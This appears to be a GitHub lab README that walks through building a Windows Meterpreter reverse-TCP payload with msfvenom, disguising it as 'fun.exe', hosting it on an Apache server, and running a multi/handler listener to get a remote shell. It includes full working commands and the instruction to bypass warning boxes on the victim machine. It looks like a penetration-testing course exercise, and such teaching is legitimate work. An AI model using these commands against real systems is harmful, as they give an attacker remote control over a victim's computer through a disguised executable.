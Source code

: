 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="870" height="329" alt="image" src="https://github.com/user-attachments/assets/d98affde-bb54-4568-88a9-e589d51cdfbe" />




Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="856" height="128" alt="image" src="https://github.com/user-attachments/assets/4a6c5875-4cd4-464a-980e-400fb5aa6acf" />



copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```
<img width="992" height="438" alt="image" src="https://github.com/user-attachments/assets/d7ac7d9d-094e-47d7-abeb-c2fae33193c0" />

<img width="759" height="130" alt="image" src="https://github.com/user-attachments/assets/e9d59ec0-cb3c-463a-ac02-da1db3c2a9cd" />


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
<img width="836" height="586" alt="image" src="https://github.com/user-attachments/assets/8d5b729f-155e-4de4-a713-a1a8636e3ac2" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```
<img width="724" height="148" alt="image" src="https://github.com/user-attachments/assets/42c3779b-a92d-4d3f-9d9b-21b8c22c148f" />


### Output 


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
